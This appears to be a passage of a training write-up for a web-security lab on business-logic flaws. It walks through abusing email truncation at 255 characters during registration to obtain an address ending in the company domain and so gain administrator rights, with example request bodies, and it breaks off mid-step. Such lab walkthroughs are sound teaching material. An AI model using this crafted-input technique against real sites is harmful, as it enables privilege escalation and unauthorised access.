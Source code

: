3. #### **Inconsistent handling of exceptional input**

    > 📝 **Note:**
    <mark>This attack is known as **SQL Truncation**.</mark>

    - Open the **Email client**.
    - Register an account and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/register  POST    (csrf=...&username=attacker&email=attacker%40exploit-<mail_domain>.web-security-academy.net&password=attacker)
    ...
    ```

    - Login and try to access to **/admin**, the message  
    ***Admin interface only available if logged in as a DontWannaCry user*** will appear.
    - Logout and discover how the account registration process works.

    ```plaintext
    Registered username (error message: "An account already exists with that username")
    Registered email    (error message: "An account already exists with that email")

    Username value      (if more than 32 characters then error message: "Invalid username format")
    Username value      (if contains "@" then error message: "Invalid username format")
    Username value      (no distinction between lowercase and uppercase)

    Password value      (no length restriction)
    Email value         (no length restriction but the email is truncated at 255 characters)

    ```

    - Register another account but use a very long **Email** (255+ characters) and see what happens  
    (notice that you still receive the link confirmation, but when you login, the shown email is truncated).

    ```plaintext
    https://<lab_url>/register  POST

    (csrf=...&username=another_attacker&email=another_attackerrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr@%40exploit-<mail_domain>.web-security-academy.net&password=another_attacker)


    Your email is: another_attackerrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr@exploit-<mail_domain>.web-security-
    ```

    - Register another account again but use an **Email** with **dontwannacry.com**
    as a subdomain for the email domain and the length enough to be truncated at the end of **dontwannacry.com**, then login  
    (notice that your role has been set by default as administrator).

    ```plaintext
    https://<lab_url>/register  POST
